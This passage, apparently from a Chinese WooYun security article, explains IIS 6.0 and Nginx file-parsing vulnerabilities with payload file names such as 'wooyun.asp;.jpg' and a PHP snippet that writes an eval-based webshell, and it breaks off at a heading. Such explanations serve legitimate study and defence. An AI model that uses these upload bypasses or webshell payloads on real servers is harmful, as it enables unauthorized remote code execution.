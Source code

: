 ```
wooyun.asp;.jpg 

```

第一种，在网站下建立文件夹的名字为 *.asp、*.asa 的文件夹，其目录内的任何扩展名的文件都被IIS当作asp文件来解析并执行。

例如创建目录 wooyun.asp，那么

```
/wooyun.asp/1.jpg

```

将被当作asp文件来执行。假设黑阔可以控制上传文件夹路径,就可以不管你上传后你的图片改不改名都能拿shell了。

第二种，在IIS6.0下，分号后面的不被解析，也就是说

```
wooyun.asp;.jpg

```

会被服务器看成是wooyun.asp

还有IIS6.0 默认的可执行文件除了asp还包含这三种

```
/wooyun.asa
/wooyun.cer
/wooyun.cdx

```

乌云上的IIS 6.0解析漏洞利用案例

[http://www.wooyun.org/searchbug.php?q=IIS6.0](http://www.wooyun.org/searchbug.php?q=IIS6.0)

### 二、IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞


Nginx解析漏洞这个伟大的漏洞是我国安全组织80sec发现的…

在默认Fast-CGI开启状况下,黑阔上传一个名字为wooyun.jpg，内容为

```
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>

```

的文件，然后访问wooyun.jpg/.php,在这个目录下就会生成一句话木马 shell.php

这个漏洞案例

[WooYun: 用友软件某分站SQL注入漏洞+nginx解析漏洞](http://www.wooyun.org/bugs/wooyun-2013-032250)

[WooYun: 新浪网分站多处安全漏洞（nginx解析+SQL注射等）小礼包](http://www.wooyun.org/bugs/wooyun-2013-021064)

[WooYun: kingsoft.com某x级域名nginx解析漏洞+爆路径](http://www.wooyun.org/bugs/wooyun-2013-019253)

### 三、Nginx <8.03 空字节代码执行漏洞
